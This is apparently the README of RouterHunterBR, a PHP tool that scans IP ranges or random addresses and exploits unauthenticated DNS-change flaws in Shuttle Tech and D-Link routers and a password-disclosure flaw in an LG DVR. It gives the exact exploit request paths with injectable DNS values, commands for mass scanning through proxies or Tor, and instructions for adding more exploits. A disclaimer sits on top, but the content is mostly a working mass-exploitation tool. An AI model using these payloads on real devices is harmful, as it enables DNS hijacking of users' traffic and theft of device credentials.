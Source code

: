 # RouterHunterBR
TOOL - Unauthenticated Remote DNS change/ users & passwords.

```
Studies and analysis tool vulnerabilities
[!] legal disclaimer: Usage of RouterHunterBR for attacking targets without prior mutual consent is illegal. 
It is the end user's responsibility to obey all applicable local, state and federal laws.
Developers assume no liability and are not responsible for any misuse or damage caused by this program
```

 * Script exploit developed by INURL - BRAZIL
 * Script Name: SCANNER RouterHunterBR 1.0
 * TIPE: TOOL - Unauthenticated Remote DNS change/ users & passwords 
 * AUTOR*: GoogleINURL
 * AUTOR: Jhonathan davi / NICK: Jhoon
 * EMAIL*: inurllbr@gmail.com
 * Blog*: http://blog.inurl.com.br
 * Twitter*: https://twitter.com/googleinurl
 * Fanpage*: https://fb.com/InurlBrasil
 * GIT*: https://github.com/googleinurl
 * PASTEBIN*: http://pastebin.com/u/googleinurl
 * YOUTUBE* https://www.youtube.com/channel/UCFP-WEzs5Ikdqw0HBLImGGA
 * PACKETSTORMSECURITY:* http://packetstormsecurity.com/user/googleinurl/


- Description:
------
  The script explores four vulnerabilities in routers
 * 01 - Shuttle Tech ADSL Modem-Router 915 WM / Unauthenticated Remote DNS Change Exploit

  reference: http://www.exploit-db.com/exploits/35995/

 * 02 - D-Link DSL-2740R / Unauthenticated Remote DNS Change Exploit

  reference: http://www.exploit-db.com/exploits/35917/

 * 03 - LG DVR LE6016D / Unauthenticated users/passwords disclosure exploitit

  reference: http://www.exploit-db.com/exploits/36014/
  
 * 04 - D-Link DSL-2640B Unauthenticated Remote DNS Change Exploitx
  
  reference: http://1337day.com/exploit/23302/ 

- Execute:
------
```
  Simple search:   php RouterHunterBR.php --range '177.100.255.1-20' --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt

  Set IPS random:  php RouterHunterBR.php --rand --limit-ip 200 --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt
  
  Set source file: php RouterHunterBR.php --file ips.txt --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt
  
  Set proxy:       php RouterHunterBR.php --range '177.100.255.1-20' --dns1  8.8.8.8 --dns2 8.8.4.4 --output result.txt --proxy 'localhost:8118'
  
  Proxy format:
   --proxy 'localhost:8118'
   --proxy 'socks5://googleinurl@localhost:9050'
   --proxy 'http://admin:12334@172.16.0.90:8080'
  
```

- Dependencies:
------
```
  sudo apt-get install curl libcurl3 libcurl3-dev php5 php5-cli php5-curl
```
- EDITING TO ADD NEW EXPLOITS GETS:
------
```
TO DEFINE MORE EXPLOITS GET:
EX: $params['exploit_model']['model_name'] = 'file_exploit.php';
$params['exploit_model']['model_001'] = '/file001CGI.cgi';
$params['exploit_model']['model_002'] = '/file001php.php';
$params['exploit_model']['model_003'] = '/file001.html';

#DEFINITION OF EXPLOITS
LINE 99 $params['exploit_model']['Shuttle_Tech_ADSL_Modem_Router_915_WM'] = "/dnscfg.cgi?dnsPrimary={$params['dns1']}&dnsSecondary={$params['dns2']}&dnsDynamic=0&dnsRefresh=1";
LINE 100 $params['exploit_model']['D_Link_DSL_2740R'] = "/dns_1?Enable_DNSFollowing=1&dnsPrimary={$params['dns1']}&dnsSecondary={$params['dns2']}";
LINE 101 $params['exploit_model']['D_Link_DSL_2640B'] = "/ddnsmngr.cmd?action=apply&service=0&enbl=0&dnsPrimary={$params['dns1']}&dnsSecondary={$params['dns2']}&dnsDynamic=0&dnsRefresh=1&dns6Type=DHCP";
LINE 102 $params['exploit_model']['LG_DVR_LE6016D'] = "/dvr/wwwroot/user.cgi";

```
